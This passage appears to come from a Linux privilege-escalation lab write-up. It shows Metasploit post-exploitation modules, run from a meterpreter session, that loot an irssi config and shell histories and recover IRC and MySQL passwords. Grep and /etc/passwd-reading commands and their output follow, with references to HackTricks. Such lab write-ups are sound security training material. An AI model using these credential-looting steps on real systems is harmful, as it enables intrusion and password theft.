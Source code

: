 ```
[!]  * incompatible session type: meterpreter
[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found IRC password(s) of password321 in irssi config at /home/user/.irssi/config
[+] irssi config with passwords stored in /root/.msf4/loot/20220523133749_default_10.10.198.41_irssiconfigfil_990648.txt

$ sudo cat /root/.msf4/loot/20220523133749_default_10.10.198.41_irssiconfigfil_990648.txt | grep -i passw
    autosendcmd = "/msg nickserv identify password321 ;wait 2000";
```

### 2.3 - History

```
meterpreter > run post/linux/gather/enum_users_history

[+] Info:
[+]     Debian GNU/Linux 6.0
[+]     Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64 GNU/Linux
[-] Failed to open file: /home/user/.ash_history: core_channel_open: Operation failed: 1
[+] bash history for TCM stored in /root/.msf4/loot/20220523132458_default_10.10.198.41_linux.enum.users_602188.txt
[-] Failed to open file: /home/user/.csh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.ksh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.sh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.tcsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.zsh_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.mysql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.psql_history: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.dbshell: core_channel_open: Operation failed: 1
[-] Failed to open file: /home/user/.viminfo: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/sudoers: core_channel_open: Operation failed: 1
[+] Last logs stored in /root/.msf4/loot/20220523132500_default_10.10.198.41_linux.enum.users_618604.txt

$ sudo cat /root/.msf4/loot/20220523132458_default_10.10.198.41_linux.enum.users_602188.txt | grep -i passw
mysql -h somehost.local -uroot -ppassword123
cat /etc/passwd | cut -d: -f1
awk -F: '($3 == "0") {print}' /etc/passwd
```

---
## References

- [Privilege Escalation Drives](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#drives)

- [Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#passwd-shadow-files)

- [Linux Var Log Files](http://www.thegeekstuff.com/2011/08/linux-var-log-files/)

- [Linux Privilege Escalation Checklist](https://steflan-security.com/linux-privilege-escalation-checklist/)